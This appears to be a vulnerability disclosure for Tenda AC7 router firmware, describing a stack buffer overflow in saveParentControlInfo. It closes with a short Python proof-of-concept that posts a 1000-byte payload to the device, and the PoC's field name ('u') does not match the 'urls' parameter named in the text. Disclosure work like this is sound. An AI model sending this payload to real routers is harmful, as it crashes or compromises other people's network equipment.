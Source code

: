 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240318163953867](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163953867.png)

it reads in a user-provided parameter `urls`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240318163658287](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163658287.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240318164015750](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318164015750.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"u": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240318163718100](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163718100.png)
